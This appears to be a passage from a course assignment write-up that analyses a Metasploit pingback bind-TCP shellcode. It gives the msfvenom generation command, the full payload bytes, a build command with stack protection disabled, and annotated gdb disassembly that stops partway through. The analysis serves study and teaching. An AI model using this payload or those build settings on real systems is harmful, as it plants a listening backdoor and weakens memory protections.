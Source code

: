To begin, we need to generate the payload and we will set it to bind on port 4444 :
```plaintext
skrox@kali:~$ msfvenom -p linux/x64/pingback_bind_tcp LPORT=4444 -f c
[-] WARNING: UUID cannot be saved because database is inactive.
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 109 bytes
Final size of c file: 484 bytes
unsigned char buf[] = 
"\x56\x50\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f\x05\x48"
"\x85\xc0\x78\x52\x48\x97\x48\xc7\xc1\x02\x00\x11\x5c\x51\x48"
"\x89\xe6\x54\x5e\x6a\x31\x58\x6a\x10\x5a\x0f\x05\x6a\x32\x58"
"\x6a\x01\x5e\x0f\x05\x6a\x2b\x58\x99\x52\x52\x54\x5e\x6a\x1c"
"\x48\x8d\x14\x24\x0f\x05\x48\x97\x6a\x10\x5a\xe8\x10\x00\x00"
"\x00\x96\x33\xfd\x16\x90\xd2\x4a\x84\xa1\x8b\x4c\x22\xd4\x95"
"\x68\xed\x5e\x48\x31\xc0\x48\xff\xc0\x0f\x05\x6a\x3c\x58\x6a"
"\x01\x5f\x0f\x05";
```

We insert it into a wrapper, we compile it and run it with gdb :
```plaintext
skrox@kali:~$ g++ -ggdb -m64 -fno-stack-protector -z execstack -o pingback-bind shellcode.cpp
skrox@kali:~$ gdb ./pingback-bind
```

Now my analysis of the payload and the gdb commands I've used to see its assembly code :
```nasm
(gdb) break *&payload
Breakpoint 1 at 0x4060
(gdb) run
Starting program: /home/skrox/Desktop/github-repos/SLAE64/Assignment-05-MsfVenom_shellcodes_analysis/pingback-bind 

Breakpoint 1, 0x0000555555558060 in payload ()
(gdb) disas
Dump of assembler code for function payload:
=> 0x0000555555558060 <+0>:	push   rsi		; 
   0x0000555555558061 <+1>:	push   rax		; I don't know why these two instructions are executed
							; maybe for compatibility issue with some options.

; socket(AF_INET, SOCK_STREAM, 0)
   0x0000555555558062 <+2>:	push   0x29
   0x0000555555558064 <+4>:	pop    rax		; socket syscall value	
   0x0000555555558065 <+5>:	cdq    			; RDX set to 0
   0x0000555555558066 <+6>:	push   0x2		
   0x0000555555558068 <+8>:	pop    rdi	 	; AF_INET
   0x0000555555558069 <+9>:	push   0x1	
   0x000055555555806b <+11>:	pop    rsi		; SOCK_STREAM
   0x000055555555806c <+12>:	syscall 		; exec socket 

   0x000055555555806e <+14>:	test   rax,rax		; cmp RAX, 0
   0x0000555555558071 <+17>:	js     0x5555555580c5 <payload+101> ; if socket return error SF=1
							            ; jump to exit(1)

; bind(sockfd, {AF_INET, port 4444, INADDR_ANY}, 16)
   0x0000555555558073 <+19>:	xchg   rdi,rax		; move sockfd to RDI
   0x0000555555558075 <+21>:	mov    rcx,0x5c110002   ; 0x000000005c110002
   0x000055555555807c <+28>:	push   rcx              
   0x000055555555807d <+29>:	mov    rsi,rsp		; RSI point to AF_INET, port 4444, INADDR_ANY 
   0x0000555555558080 <+32>:	push   rsp		
   0x0000555555558081 <+33>:	pop    rsi		; same as previously...
   0x0000555555558082 <+34>:	push   0x31
   0x0000555555558084 <+36>:	pop    rax		; bind syscall value
   0x0000555555558085 <+37>:	push   0x10
```